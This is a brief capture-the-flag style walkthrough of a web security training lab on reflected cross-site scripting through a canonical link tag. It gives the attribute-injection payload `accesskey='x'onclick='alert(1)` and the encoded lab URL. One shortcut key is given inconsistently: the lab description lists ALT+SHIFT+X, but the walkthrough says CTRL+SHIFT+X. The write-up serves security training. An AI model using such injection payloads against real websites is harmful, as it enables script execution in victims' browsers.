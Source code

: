 Title: Reflected XSS in canonical link tag
Level: PRACTITIONER
Desc:  This lab reflects user input in a canonical link tag and escapes angle brackets.
To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.
To assist with your exploit, you can assume that the simulated user will press the following key combinations:
    ALT+SHIFT+X
    CTRL+ALT+X
    Alt+X
Please note that the intended solution to this lab is only possible in Chrome. 

# Walkthrough:
<img width="1128" height="265" alt="image" src="https://github.com/user-attachments/assets/929b004d-1119-4de1-afb2-1a086b0eecbe" />

`<link rel="canonical" href='https://0ac5000c03c6cce280550d91009a00ce.web-security-academy.net/?'accesskey='x'onclick='alert(1)'/>`
the payload: `?'accesskey='x'onclick='alert(1)`

url: `https://0ac5000c03c6cce280550d91009a00ce.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`\
run this exploit by using CTRL+SHIFT+X in the browser.

!!! `This lab reflects user input in a canonical link tag and escapes angle brackets. `
